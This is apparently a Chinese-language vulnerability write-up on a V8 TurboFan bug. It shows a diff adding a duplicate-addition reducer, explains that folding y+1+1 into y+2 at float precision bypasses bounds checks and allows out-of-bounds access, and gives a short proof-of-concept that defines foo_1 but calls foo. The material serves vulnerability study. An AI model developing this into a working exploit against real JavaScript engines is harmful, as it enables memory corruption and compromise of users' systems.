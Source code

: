 ```c
index 5717c70348..8cca161ad5 100644
--- a/src/compiler/pipeline.cc
+++ b/src/compiler/pipeline.cc
@@ -27,6 +27,7 @@
 #include "src/compiler/constant-folding-reducer.h"
 #include "src/compiler/control-flow-optimizer.h"
 #include "src/compiler/dead-code-elimination.h"
+#include "src/compiler/duplicate-addition-reducer.h"
 #include "src/compiler/effect-control-linearizer.h"
 #include "src/compiler/escape-analysis-reducer.h"
 #include "src/compiler/escape-analysis.h"
@@ -1301,6 +1302,8 @@ struct TypedLoweringPhase {
                                data->jsgraph()->Dead());
     DeadCodeElimination dead_code_elimination(&graph_reducer, data->graph(),
                                               data->common(), temp_zone);
+    DuplicateAdditionReducer duplicate_addition_reducer(&graph_reducer, data->graph(),
+                                              data->common());
     JSCreateLowering create_lowering(&graph_reducer, data->dependencies(),
                                      data->jsgraph(), data->js_heap_broker(),
                                      data->native_context(), temp_zone);
@@ -1318,6 +1321,7 @@ struct TypedLoweringPhase {
                                          data->js_heap_broker(), data->common(),
                                          data->machine(), temp_zone);
     AddReducer(data, &graph_reducer, &dead_code_elimination);
+    AddReducer(data, &graph_reducer, &duplicate_addition_reducer);
     AddReducer(data, &graph_reducer, &create_lowering);
     AddReducer(data, &graph_reducer, &constant_folding_reducer);
     AddReducer(data, &graph_reducer, &typed_optimization);
```

补丁引入了对kNumberAdd节点的优化，遇到数字的加法进行优化，如下：

```javascript
var x = y + 1 + 1;
=>
var x = y + 2;
```

因此配合浮点数精度计算，会导致 y+1+1并不等于y+2，导致x优化前后的值不同，绕过v8的CheckBound 检查，造成越界读写。

Poc 代码（Number.MAX_SAFE_INTEGER 为9007199254740991）：

```javascript
function foo_1(flag)
{
        let a = new Array(1.1,1.2,1.3,1.4,1.5);
        let x = (flag == "foo") ? Number.MAX_SAFE_INTEGER+5:Number.MAX_SAFE_INTEGER+1;
        let tmp1 = x+1+1;
        let idx = tmp1 - (Number.MAX_SAFE_INTEGER+1);
		return idx;
        //return a[idx];
}
console.log(foo("foo"));
console.log(foo(""));
%OptimizeFunctionOnNextCall(foo);
console.log(foo("foo"));
```
